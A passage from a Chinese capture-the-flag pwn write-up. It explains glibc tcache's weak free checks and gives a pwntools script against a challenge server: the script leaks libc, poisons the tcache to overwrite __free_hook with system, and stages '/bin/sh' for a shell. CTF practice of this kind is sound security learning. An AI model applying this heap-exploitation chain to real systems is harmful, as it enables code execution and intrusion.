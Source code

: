 `mp_.tcache_bins`是常量值，与`TCACHE_MAX_BINS`相等；`mp_.tcache_count`的值为7。

在这段代码之前，唯一执行的检查只有`check_inuse_chunk`。代码本身只会验证idx是否符合要求，cache是否达到上限。相比与旧的free机制，释放一块伪造的chunk会更加容易。

- chunk的指针地址满足`2 * SIZE_SZ`对齐
- chunk size的大小低于tcache的上限(0x410)

面对如此宽松的检查，我们无需构造合法的`next_size`即可完成house of spirit。

```
from pwn import *

# p = process('./heap')
p=remote("node4.anna.nssctf.cn",28200)
elf = ELF('./heap')
libc = ELF('./libc.so.6')

context(os='linux',arch='amd64')

def add(idx,size):
    p.recvuntil('>>')
    p.sendline(b'1')
    p.recvuntil(b'idx? ')
    p.sendline(str(idx))
    p.recvuntil('size? ')
    p.sendline(str(size))

def delete(idx):
    p.recvuntil('>>')
    p.sendline(b'2')
    p.recvuntil(b'idx? ')
    p.sendline(str(idx))

def show(idx):
    p.recvuntil('>>')
    p.sendline(b'3')
    p.recvuntil(b'idx? ')
    p.sendline(str(idx))

def edit(idx,content):
    p.recvuntil('>>')
    p.sendline(b'4')
    p.recvuntil(b'idx? ')
    p.sendline(str(idx))
    p.recvuntil('content : ')
    p.send(content)

add(0,0x410)
add(1,0x10)
add(2,0x10)
delete(0)
show(0)

libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-96-0x10-libc.symbols['__malloc_hook']

system = libc_base+libc.symbols['system']
print('libc_base-->'+hex(libc_base))
free_hook  = libc_base+libc.symbols['__free_hook']
delete(1)
delete(2)
edit(2,p64(free_hook))
add(3,0x10)
add(4,0x10)
edit(4,p64(system))
add(5,0x30)
edit(5,b'/bin/sh\x00')
```